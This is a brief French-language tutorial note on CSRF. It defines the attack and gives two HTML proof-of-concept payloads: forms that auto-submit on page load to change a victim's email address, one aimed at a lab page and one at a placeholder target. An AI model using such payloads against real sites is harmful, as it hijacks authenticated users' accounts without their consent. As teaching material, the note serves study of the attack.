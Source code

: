 # Cross-Site Resquest Forgery (CSRF)

est une attaque qui force un utilisateur final pour exécuter des actions indésirables sur une application Web dans laquelle ils se trouvent actuellement authentifié.

Les attaques CSRF ciblent les fonctionnalités qui provoquent un changement d'état sur le serveur, comme la modification de l'adresse e-mail ou du mot de passe de la victime, ou acheter quelque chose

> Les attaques CSRF ciblent les demandes de changement d’état. 

```html
<form action="http://tmc.lab/labs/csrf0x01.php" method="post">
    <div class="mb-3 form-group">
        <label for="email">Email</label>
        <input type="text" name="email" value="berty@gmail.com" class="form-control" id="email" aria-describedby="emailHelp" placeholder="Enter email">
    </div>
    <script type="text/javascript">
        window.onload = function(){
            document.forms[0].submit();
        }
    </script>
</form>
```


Autre methode plus direct

```html
<form name="csrf" action="http://target.com/endpoint" method="post">
    <div class="mb-3 form-group">
        <label for="email">Email</label>
        <input type="text" name="email" value="berty@gmail.com" class="form-control" id="email" aria-describedby="emailHelp" placeholder="Enter email">
    </div>
    <script>document.csrf.submit();</script>
</form>
```
